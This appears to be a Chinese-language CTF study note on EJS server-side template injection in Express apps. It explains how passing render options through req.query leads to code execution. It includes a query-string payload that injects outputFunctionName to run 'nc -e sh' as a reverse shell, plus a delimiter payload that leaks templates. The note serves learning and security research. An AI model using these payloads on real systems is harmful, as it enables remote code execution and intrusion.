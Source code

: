 alias:: EJS
tags:: JS

- # SSTI
	- [[CTFWEB/SSTI/EJS]]
- # 原型链污染
	- [[CTFWEB/JS/EJS的原型链污染]]
	- [[CTFWEB/WP/CTFShow/web341]]
- # render函数传递参数导致的问题
  id:: 64d7a180-ce15-46d7-b3c5-9ae47612b34e
	- 参考
		- https://eslam.io/posts/ejs-server-side-template-injection-rce/
			- 虽然文章说只对旧版有效，但是不知道为什么``ejs@3.1.9``仍然可以使用这个漏洞实现模板泄漏
		- https://www.npmjs.com/package/ejs
			- 其中有delimiter等options的定义
	- 原理
		- 如果有形似`res.render('views/page.ejs', req.query);`的渲染方法，我们可以通过在req.query中传递恶意参数来控制ejs的渲染结果，实现RCE
		- `ejs.renderFile`会在`data`对象中看到我们的query, 然后其会根据`data.settings['view options']`拿出viewOpt合并到渲染选项中，所以我们提供viewOpt即可自定义渲染选项
	- 注意
		- 第一个参数为文件名时，express会控制ejs缓存渲染结果，所以需要在文件产生后立马发送payload，不能在访问路径，已经渲染了模板之后再发送payload
	- payload
		- RCE
			- 新版ejs会使用正则`/^[a-zA-Z_$][0-9a-zA-Z_$]*$/`检查`outputFunctionName`是否合法，不能使用这个payload
			- ```text
			  settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
			  ```
		- 查看模板
			- ```text
			  settings[view+options][delimiter]=nope114514
			  ```
-
